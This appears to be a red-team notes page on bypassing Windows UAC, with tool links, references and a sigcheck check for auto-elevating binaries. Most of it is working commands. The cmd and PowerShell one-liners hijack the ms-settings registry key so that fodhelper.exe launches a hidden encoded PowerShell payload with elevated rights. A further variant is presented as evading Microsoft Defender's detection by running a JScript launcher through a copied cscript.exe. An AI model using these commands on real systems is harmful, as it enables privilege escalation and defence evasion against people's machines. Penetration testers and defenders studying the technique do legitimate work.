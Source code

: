 ```yaml
---
title: UAC Bypass
---
```


When you are local admin on [[notes/windows/index]], but you have a filtered token (medium integrity) and want to obtain an unfiltered token (high integrity), you have to bypass UAC.

Untested tools:

- [UACME](https://github.com/hfiref0x/UACME), implements multiple techniques
- [IDiagnosticProfileUAC](https://github.com/Wh04m1001/IDiagnosticProfileUAC)

References:

- [Advanced Windows Task Scheduler Playbook - Part.2 from COM to UAC bypass and get SYSTEM dirtily](http://web.archive.org/web/20230723100015/https://www.zcgonvh.com/post/Advanced_Windows_Task_Scheduler_Playbook-Part.2_from_COM_to_UAC_bypass_and_get_SYSTEM_dirtectly.html)
- [UAC bypass through Trusted Folder abuse](http://web.archive.org/web/20230310190607/https://redteamer.tips/uac-bypass-through-trusted-folder-abuse/)
- [Exploiting environment variables in scheduled tasks for UAC bypass](http://web.archive.org/web/20221206201830/https://www.tiraniddo.dev/2017/05/exploiting-environment-variables-in.html)

# FoDHelper

The auto-elevating `fodhelper.exe` reads a command from the HKCU hive and executes it.
This works at least since Windows 10 1709 and is still unpatched as of January 2023.

=== "cmd"
    ~~~ bat
    reg.exe add HKCU\Software\Classes\ms-settings\shell\open\command /d "powershell.exe -ep bypass -w hidden -e %base64%" /f
    reg.exe add HKCU\Software\Classes\ms-settings\shell\open\command /v DelegateExecute /t REG_SZ /f
    C:\Windows\System32\fodhelper.exe
    ~~~

=== "PowerShell"
    ~~~ powershell
    New-Item -Path HKCU:\Software\Classes\ms-settings\shell\open\command -Value "powershell.exe -ep bypass -w hidden -e $base64" –Force
    New-ItemProperty -Path HKCU:\Software\Classes\ms-settings\shell\open\command -Name DelegateExecute -PropertyType String -Force
    C:\Windows\System32\fodhelper.exe
    ~~~

**OpSec:** Microsoft Defender detects the exploitation, but does not prevent it.

Evade Defenders detection rules (as of January 2023).

~~~ bat
copy %windir%\System32\cscript.exe %windir%\System32\Tasks\test.exe
echo new ActiveXObject('WScript.Shell').Run('powershell -ep bypass -w hidden -e %payload%') > %windir%\System32\Tasks\test.txt
reg add HKCU\Software\Classes\ms-settings\shell\open\command /d "%windir%\System32\Tasks\test.exe -e:jscript %windir%\System32\Tasks\test.txt" /f
reg add HKCU\Software\Classes\ms-settings\shell\open\command /v DelegateExecute /t REG_SZ /f
%windir%\System32\fodhelper.exe
~~~

# Auto Elevation

Programs signed by Microsoft that are marked as *Auto Elevate* do not trigger UAC when started by an administrator.

Check if an executable is allowed to auto elevate with [Sigcheck](https://docs.microsoft.com/en-us/sysinternals/downloads/sigcheck).

~~~
C:\> sigcheck.exe -a -m C:\Windows\System32\fodhelper.exe
...
<trustInfo xmlns="urn:schemas-microsoft-com:asm.v3">
    <security>
    <requestedPrivileges>
        <requestedExecutionLevel level="requireAdministrator"/>
    </requestedPrivileges>
    </security>
</trustInfo>
<asmv3:application>
    <asmv3:windowsSettings xmlns="http://schemas.microsoft.com/SMI/2005/WindowsSettings">
    <autoElevate>true</autoElevate>
    </asmv3:windowsSettings>
</asmv3:application>
...
~~~
